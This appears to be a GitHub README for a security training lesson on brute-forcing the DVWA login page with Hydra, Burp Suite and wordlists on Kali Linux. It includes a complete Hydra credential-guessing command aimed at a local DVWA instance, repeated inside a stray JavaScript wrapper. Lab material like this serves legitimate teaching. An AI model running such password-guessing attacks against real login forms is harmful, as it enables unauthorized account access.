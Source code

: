 # SIP-DVWA - Brute Force Module

## Brute Force DVWA

Brute forcing web applications involves repeatedly attempting to guess login credentials or access sensitive areas by systematically trying different combinations of usernames and passwords. It can exploit weak or common passwords and is often mitigated by rate-limiting, CAPTCHAs, or account lockouts after multiple failed attempts. Effective defenses against brute force attacks include strong password policies, multi-factor authentication, and monitoring for suspicious login patterns.

## Tools Used In Lesson
- Kali Linux
- Burp Suite
- Hydra
- wfuzz
- Foxy Proxy Standard
- Seclists
- DVWA (Damn Vulnerable Web App)

## Links

- Applications
  - Burp Suite - https://portswigger.net/burp/communitydownload
  - Foxy Proxy - https://getfoxyproxy.org/downloads/
  - Hydra - https://www.kali.org/tools/hydra/
  - wFuzz - https://www.kali.org/tools/wfuzz/
- Web App
  - DVWA Repository - https://github.com/digininja/DVWA
- Wordlist
  - Seclists- https://www.kali.org/tools/seclists/

## Foxy Proxy Install

1. Open Firefox download and install the Foxy Proxy Standard Browser Exstension https://getfoxyproxy.org/downloads/
2. Configure proxy for burpsuite
   1. Click on exstension and select options
      - ![2024-09-11_14-45](https://github.com/user-attachments/assets/3ae3511e-5d6c-461a-a751-99242181359d)
   3. click on proxies tab
      - ![2024-09-11_14-46](https://github.com/user-attachments/assets/b8aca22f-c2e2-4a4a-b07a-97b832318c4a)
   4. configure proxy to match aove screeshot
  
## Brute Force Methods

### Low

## Hydra

- Get PHPSESSID by inspecting the brute force login page. ID is found under network tab
- login with known credentials and follow the URL for the user picture to find the directory of users profile image. Use the names to make a user list .txt file
- Use this command and replace the PHPSESSID with your ID

...
hydra -L '/home/kali/Documents/users.txt'  -P '/usr/share/seclists/Passwords/darkweb2017-top100.txt'  'http-get-form://127.0.0.1/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=vu38odo9072l1dpa1b7l64nn0m; security=low:F=Username and/or password incorrect'
```
function test() {
  console.log("hydra -L '/home/kali/Documents/users.txt'  -P '/usr/share/seclists/Passwords/darkweb2017-top100.txt'  'http-get-form://127.0.0.1/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=vu38odo9072l1dpa1b7l64nn0m; security=low:F=Username and/or password incorrect'");
}
```

-L provides list of users
-P provides list of passwords
- http-get-form uses the http get method to insert the user and password from your lists

### Medium

## Coming Soon

### High

## Coming Soon

### Impossible

## Coming Soon

## Links to learn more

- https://owasp.org/www-community/attacks/Brute_force_attack
- https://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password
- https://www.golinuxcloud.com/brute-force-attack-web-forms

